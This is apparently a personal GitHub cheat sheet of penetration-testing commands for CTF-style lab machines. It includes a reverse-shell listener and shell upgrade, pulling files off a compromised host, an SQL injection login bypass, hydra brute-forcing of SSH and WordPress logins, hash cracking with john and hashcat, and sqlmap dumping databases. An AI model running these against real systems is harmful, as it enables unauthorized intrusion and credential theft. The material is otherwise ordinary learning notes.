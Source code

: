 # _**Some Important Notes**_

-------------------------------------------------------------------------------------------

`verison` 
`1.1.2`

-------------------------------------------------------------------------------------------


`General Nmap Scan`


	nmap -sV -A {machine IP} 


`If ping is being blocked`

	nmap -sV -A {machine IP} -Pn


------------------------------------------------------------------------------------------

`Gobuster`

	gobuster dir -u http://machineip -w wordlists


--------------------------------------------------------------------------------------------

`rust scan`


	rustscan -a {machine IP} -- -A -sC -sV

-------------------------------------------------------------------------------------------------


`enum4linux`

	./enum4linux.pl -U {machine IP} 

`or also -S be used`

	./enum4linux.pl -S {machine IP}

-----------------------------------------------------------------------------------------------

`subclient`


	smbclient -L //10.10.97.76/

	smbclient //10.10.97.76/{directory to access}

--------------------------------------------------------------------------------------------

`SUID permission`

	find / -perm -u=s -type f 2>/dev/null

`Search root flag`

	find / -name root.txt
	
	
----------------------------------------------------------------------------------------------

`Download From Reverse Shell`

`In Reverese shell`

	python3 -m http.server {port}

`In local Machine`

	wget machineip:8000/file.name


`for directory` `sometimes`

	wget --recursive --no-parent  10.10.46.113:8000/{directory}

------------------------------------------------------------------------------------------------------

`linpeas.sh`

	linpeas.sh is the best script for previlage escilation


-------------------------------------------------------------------------------------------------------

`FTP download/upload`

	get -> download file
	put -> upload file

-------------------------------------------------------------------------------------------------------

`sql injection` 
`login bypass`

	 username: ' or 1=1 --
	 password: anything

---------------------------------------------------------------------------------------------------

`netcat`

	nc -nvlp {port}

-------------------------------------------------------------------------------------------------

`PTY shell upgrade`
`Stable Reverse Shell connnection`

        python3 -c 'import pty; pty.spawn("/bin/bash")'

-------------------------------------------------------------------------------------------------
`john the ripper`
`john`

	john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john

-----------------------------------------------------------------------------------------------------

`rsa` 
`ssh2john`

	/usr/share/john/ssh2john.py id_rsa > id_rsa.john 

`then`

       john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john

`john for hash`
	
	john --format=raw-sha1 hash

`ssh2johnhash`

	chmod 600 id_rsa #change mode to initial RSA private key file

`for ssh connection`

	ssh -i id_rsa user@ip 


------------------------------------------------------------------------------------------------------

`hydra`


        hydra -l user -P wordlists.txt {ip} -V http-form-post "page:parameters:string"



`example:`


        hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.208.134 -V http-form-post "wp-login.php:log=^USER^&^PASS^$wp-submit:LogIn&testcookie=1:F=incorrect"


`use burpsuit for rest of info`

--------------------------------------------------------------------------------------------------------

`hydra ssh`

	hydra -l jake -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.215.72 ssh -t 4 
	

-----------------------------------------------------------------------------------------------------


`hashid`

	hashid -m '{hash value}'

`hashcat`

	hashcat -m {mode value from hashid} {hash value} {/wordlists.txt}

-------------------------------------------------------------------------------------------------------------

`sqlmap`

	sqlmap -u http://10.10.71.73 --forms --tamper=space2comment --dump-all -dbms sqlite

----------------------------------------------------------------------------------------------------------------
`steghide`

	steghide extract -sf brooklyn99.jpg
	
`stegcracker`
	
	stegcracker brooklyn99.jpg  /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt

`binwalk`

	binwalk -e file.jpg


-------------------------------------------------------------------------------------------------------------------

`Network File System (NFS) `

`Know mount location` 

	 sudo showmount -e 'machine-ip'

`to mount the file`

	sudo mount -t nfs 'machine-ip':/opt/conf /tmp/mountme

`note` `/opt/conf/ is mount location` `and` `/tmp/mountme` `is where you want to save file`


-------------------------------------------------------------------------------------------------------------------------------------

`Redis`

	redis-cli ip_here  -a password_here

`command for redis interface`
	
	keys * for ls
	get 'filename' for cat

`for more`

	https://redis.io/commands
	
`mysql`

	sudo mysql -h 10.10.229.126 -u root -p


# @cc github.com/prakashchand72


